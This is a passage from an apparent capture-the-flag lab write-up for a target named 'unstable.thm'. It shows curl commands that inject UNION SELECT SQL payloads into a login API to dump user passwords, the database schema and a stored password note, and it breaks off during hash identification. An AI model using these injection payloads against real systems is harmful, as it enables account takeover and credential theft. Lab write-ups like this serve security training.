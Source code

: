 We have five users, let's get their passwords:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# curl -X POST 'http://unstable.thm/api/login' -d "username=admin&password=admin' UNION SELECT 1,group_concat(password) from users--"
[
  [
    1, 
    "Green,Orange,Red,Yellow ,continue..."
  ]
]
```

Let's have a look at the other table, this one was called notes:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# curl -X POST 'http://unstable.thm/api/login' -d "username=admin&password=admin' UNION SELECT 1,(select sql from sqlite_master where tbl_name = 'notes')--"
[
  [
    1, 
    "CREATE TABLE \"notes\" (\n\t\"id\"\tINTEGER UNIQUE,\n\t\"user_id\"\tINTEGER,\n\t\"note_sql\"\tINTEGER,\n\t\"notes\"\tTEXT,\n\tPRIMARY KEY(\"id\")\n)"
  ]
]
```

I looked through the columns in the notes table, and found something interesting in the notes column:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# curl -X POST 'http://unstable.thm/api/login' -d "username=admin&password=admin' UNION SELECT 1,notes FROM notes-- -"
[
  [
    1, 
    "I have left my notes on the server.  They will me help get the family back together. "
  ], 
  [
    1, 
    "My Password is <HIDDEN>"
  ]
]
```

## Hash Cracking

We have a password, which looks more like a hash, let's check it out:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# hash-identifier <HIDDEN>
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
```